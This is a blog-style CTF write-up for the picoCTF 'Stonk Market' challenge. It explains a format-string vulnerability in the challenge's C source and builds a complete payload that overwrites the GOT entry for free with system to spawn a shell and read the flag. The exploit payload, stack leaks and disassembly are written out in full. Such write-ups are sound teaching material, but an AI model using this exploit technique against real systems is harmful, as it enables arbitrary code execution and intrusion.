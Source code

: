 ```yaml
---
layout: post
title: GOT overwrite - picoCTF Stonk Market
tags: [CTF, pwn]
---
```

> I've learned my lesson, no more reading my API key into memory. Now there's no useful information you can leak! [vuln](https://mercury.picoctf.net/static/ad92b664c3b96d717872dd4fbd05941c/vuln) [vuln.c](https://mercury.picoctf.net/static/ad92b664c3b96d717872dd4fbd05941c/vuln.c) [Makefile](https://mercury.picoctf.net/static/ad92b664c3b96d717872dd4fbd05941c/Makefile) `nc mercury.picoctf.net 43206`

So this challenge seems to be the sequel to [Stonks](https://nickchen120235.github.io/2021/08/17/format-string-attack.html), is it another format string challenge? Let's find out.

## Source Code
The previous challenge reads the api token (aka the flag) into memory which is then leaked by `printf`. This time that part of code is commented out, but format string vulnerabilty still exists.
```c
int buy_stonks(Portfolio *p) {
  if (!p) {
    return 1;
  }
  /*
  char api_buf[FLAG_BUFFER];
  FILE *f = fopen("api","r");
  if (!f) {
    printf("Flag file not found\n");
    exit(1);
  }
  fgets(api_buf, FLAG_BUFFER, f);
  */
  int money = p->money;
  int shares = 0;
  Stonk *temp = NULL;
  printf("Using patented AI algorithms to buy stonks\n");
  while (money > 0) {
    shares = (rand() % money) + 1;
    temp = pick_symbol_with_AI(shares);
    temp->next = p->head;
    p->head = temp;
    money -= shares;
  }
  printf("Stonks chosen\n");

  char *user_buf = malloc(300 + 1);
  printf("What is your API token?\n");
  scanf("%300s", user_buf);
  printf("Buying stonks with token:\n");
  printf(user_buf);

  // TODO: Actually use key to interact with API

  view_portfolio(p);

  return 0;
}
```
Also the binary is compiled with `-no-pie`, as suggested by `checksec`
```
❯ checksec ./vuln
[*] '/home/nick/coding/ctf/pwn/stonk-market/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Attack
This time there's nothing on the stack anymore, so spawning a shell may be helpful. But how? With `printf` we can not only do read operations but also **write** operations, as documented in `printf.3` manual.
> n
> 
> The  number of characters written so far is stored into the integer pointed to by the corresponding argument.  That argument shall be an `int *`, or variant whose size matches the (optionally) supplied integer length modifier.  No argument is converted.  (This specifier is not supported by the bionic C library.)  The behavior is undefined if the conversion specification includes any flags, a field width, or a precision.

What we're going to do here is called a **GOT overwrite**. Remember that when a binanry is partial -RELRO compiled, whenever a library function is called, it would call the "middle man" function located in the `.plt` section, which will check whether GOT has the actual address of the function. A GOT overwrite means that we fill the GOT table before the actual call from the middle man function, and then we have control of the execution flow.

In this case, we are overwritng the GOT table entry for `free` to `system` because `free` would be the last library call before the program ends.

First let's check what we have on the stack.
```
❯ ./vuln
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/%p/v%p/%p/%p/%p/%p/%p/%p/%p 
Buying stonks with token:
0x1/0x1/0x7efc78930257/0x7efc78a2b570/0x7fffffff/(nil)/0x23c82a0/(nil)/0x100000000/0x23c87f0/0x23c8810/0x7ffcd4ddde30/0x400c66/0x7ffcd4dddf48/0x1bfebfbff/0x7ffcd4dde359/0x100000064/0x23c82a0/0xec6b7fda16cde400/0x1/0x7efc7885b310/(nil)/0x400b95/0x1d4dddf30/v0x7ffcd4dddf48/(nil)/0x58fd781c4a9a1630/0x7ffcd4dddf48/0x400b95/(nil)/0x7efc78aa2000/0xa704d1a7f6181630
```
The 13th value is in `main`, which is right after where `buy_stonks` returns. The 12th value should be the `rbp` value when we enter `buy_stonks` from `main`.
```
00000000004009e9 <buy_stonks>:
  4009e9:       55                      push   %rbp
  4009ea:       48 89 e5                mov    %rsp,%rbp

...

0000000000400b95 <main>:
  400c61:       e8 83 fd ff ff          call   4009e9 <buy_stonks>
  400c66:       eb 14                   jmp    400c7c <main+0xe7>
```
The stack frame of `main` is `0x30` bytes (remember **the stack grows downwards**)
```
0000000000400b95 <main>:
  400b95:       55                      push   %rbp
  400b96:       48 89 e5                mov    %rsp,%rbp
  400b99:       48 83 ec 30             sub    $0x30,%rsp
```
Therefore, the 12th value is actually a pointer to the 20th value. (`0x30` // `0x8` = 6)

Finally, `Stonk*` will be returned by `pick_symbol_with_AI`, which is stored at `rbp-0x10`, so the 10th value is a pointer to a `free` parameter.

Before we continue, these are what we have for now:
- 12th: pointer to 20th value
- 10th: a pointer to a `free` parameter

Now let's actually overwrite the GOT table entry. First overwrite the 12th value to be the address of `free`'s GOT table entry, which is `0x602018`. (Note: We don't want `0x4006c0` as that's for PLT.)
```
00000000004006c0 <free@plt>:
  4006c0:       ff 25 52 19 20 00       jmp    *0x201952(%rip)        # 602018 <free@GLIBC_2.2.5>
  4006c6:       68 00 00 00 00          push   $0x0
  4006cb:       e9 e0 ff ff ff          jmp    4006b0 <.plt>
```
The first part of the payload is `%c%c%c%c%c%c%c%c%c%c%6299662c%n`. 10 `%c`s to move forward 10 values. The next one moves one step further with `6299662` padding. (We have printed 10 characters so far, so only `6299672-10=6299662` more characters needed.) The last `%n` is to actually write the value. So after this step, the pointer relationship changes
```
             12th     --->          20th
before :  rbp of main ---> rbp when main starts
after 1:  GOT of free --->       <free@plt>
```
Next is change the 20th value to `0x4006f0`, which is the address of `system@plt`. So before the address is actually resolved, The value at the corresponding GOT entry is actually still the `@plt` function, which will continue the lookup flow (`push`es the corresponding value onto the stack as the parameter to the lookup function). Since it's already started with `0x4006`, only the last byte should be modified. To modify only the last byte, `hh` length modifier is required, which
> **hh**
> 
> A following integer conversion corresponds to a signed char or unsigned char argument, or a following n conversion corresponds to a pointer to a signed char argument.

Last time we stopped at `0x602018`, the nearest value is `0x6020f0`, which needs `216` character outputs. So the second part of the payload is `%216c%20$hhn`.
```
            12th     --->          20th
before : rbp of main ---> rbp when main starts
after 1: GOT of free --->       <free@plt>
after 2: GOT of free --->      <system@plt> 
```
The final part is the argument to `system`, which is `"sh\0"`. In little endian, that's `0x006873`. So let's make it `0x01006873`, which `10504067` character outputs are required. The final part of the payload is `%10504067c%10$n`. Now when `free` is called, `system` will be called instead. And once the object we modified is `free`d, it will be the argument to `system`, and hopefully will spawn us a shell.

Finally the payload is `%c%c%c%c%c%c%c%c%c%c%6299662c%n%216c%20$hhn%10504067c%10$n`. `nc`, wait for the output to finish, and we get the shell.
```
16803955 shares of PYT
121 shares of FX
45 shares of TSB
208 shares of O
$ ls
api
vuln
vuln.c
xinet_startup.sh
$ cat api
picoCTF{explo1t_m1t1gashuns_d0295f63}
```

## Reference
- [https://activities.tjhsst.edu/csc/writeups/picoctf-2021-stonk-market](https://activities.tjhsst.edu/csc/writeups/picoctf-2021-stonk-market)
- [https://www.youtube.com/watch?v=gLFJFXpY44w](https://www.youtube.com/watch?v=gLFJFXpY44w)
- [https://hackmd.io/@rhythm/ry5pxN6NI](https://hackmd.io/@rhythm/ry5pxN6NI)